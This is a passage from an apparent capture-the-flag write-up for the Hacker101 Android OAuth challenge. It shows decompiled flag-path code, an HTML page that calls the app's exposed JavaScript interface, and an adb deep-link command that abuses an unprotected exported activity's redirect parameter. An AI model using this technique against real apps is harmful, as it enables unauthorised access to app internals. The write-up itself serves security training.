 ```java
            } else if (iArr[i3] == 1) {
                bArr[i4] = (byte) (bArr[i4] - 1);
            } else if (iArr[i3] == 6) {
                str = str + String.valueOf((char) bArr[i4]);
            } else if (iArr[i3] == 4 && bArr[i4] == 0) {
                int i5 = i3 + 1;
                int i6 = 0;
                while (true) {
                    if (i6 <= 0 && iArr[i5] == 5) {
                        break;
                    }
                    if (iArr[i5] == 4) {
                        i6++;
                    } else if (iArr[i5] == 5) {
                        i6--;
                    }
                    i5++;
                }
                i3 = i5;
            } else if (iArr[i3] == 5 && bArr[i4] != 0) {
                int i7 = i3 - 1;
                int i8 = 0;
                while (true) {
                    if (i8 <= 0 && iArr[i7] == 4) {
                        break;
                    }
                    if (iArr[i7] == 5) {
                        i8++;
                    } else if (iArr[i7] == 4) {
                        i8--;
                    }
                    i7--;
                }
                i3 = i7 - 1;
            }
            i3++;
        }
        return str + ".html";
    }
```
the code below this appears to perform a variety of operations that result in a path to a html file being created which should contains the flag. To call this method, I can create a simple web server an host the following html file to execute the `getFlagPath()` method.
```html
<html>
<head>
</head>
    <body>
    <div id="flag"></div>
        <script>
        document.getElementById("flag").innerHTML = iface.getFlagPath()
        </script>
    </body>
</html>
```
Then leveraging the second activity which as we said above isn't protected and doesn't contain the `exported=false` flag which could allow us to access it directly. we will access it via the host final and the scheme `oauth://` and adding the `uri` parameter for redirection. Using the following command:
```bash
adb shell am start -W -a android.intent.action.VIEW -d "oauth://final/?uri=EXPLOIT-LINK" com.hacker101.oauth
```
And we will get the path for the second flag: